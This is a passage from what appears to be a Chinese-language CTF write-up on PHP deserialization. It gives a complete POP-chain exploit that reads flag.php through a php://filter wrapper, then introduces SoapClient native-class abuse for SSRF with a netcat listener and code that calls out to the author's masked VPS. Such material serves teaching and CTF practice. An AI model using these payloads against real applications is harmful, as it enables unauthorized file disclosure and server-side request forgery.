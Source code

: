 这里我直接说利用思路，首先逆向分析，我们最终是希望通过`Modifier`当中的`append`方法实现本地文件包含读取文件，回溯到调用它的`__invoke`，当我们`将对象调用为函数时触发`,发现在`Test`类当中的`__get`方法，再回溯到`Show`当中的`__toString`，再回溯到`Show`当中的`__construct`当中有`echo $this->source`可以调用`__toString`

因此不难构造pop链

```php
<?php
ini_set('memory_limit','-1');
class Modifier {
    protected  $var = 'php://filter/read=convert.base64-encode/resource=flag.php';
}

class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;
        $this->str = new Test();
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = new Modifier();
    }
}
$a = new Show('aaa');
$a = new Show($a);
echo urlencode(serialize($a));
```

## PHP原生类反序列化利用

### SoapClient介绍

> 综述： 
>
> php在安装php-soap拓展后，可以反序列化原生类SoapClient，来发送http post请求。
>
> 必须调用SoapClient不存在的方法，触发SoapClient的__call魔术方法。
>
> 通过CRLF来添加请求体：SoapClient可以指定请求的user-agent头，通过添加换行符的形式来加入其他请求内容

SoapClient采用了HTTP作为底层通讯协议，XML作为数据传送的格式，其采用了SOAP协议(*SOAP* 是一种简单的基于 XML 的协议,它使应用程序通过 HTTP 来交换信息)，其次我们知道某个实例化的类，如果去调用了一个不存在的函数，会去调用`__call`方法，具体详细的信息大家可以去搜索引擎看看，这里不再赘述

### 利用方式

下面首先在我的VPS上面开启监听`nc -lvvp 9328`

```
<?php
$a = new SoapClient(null,array('uri'=>'bbb', 'location'=>'http://xxxx.xxx.xx:9328'));
$b = serialize($a);
$c = unserialize($b);
$c -> not_a_function();//调用不存在的方法，让SoapClient调用__call
```
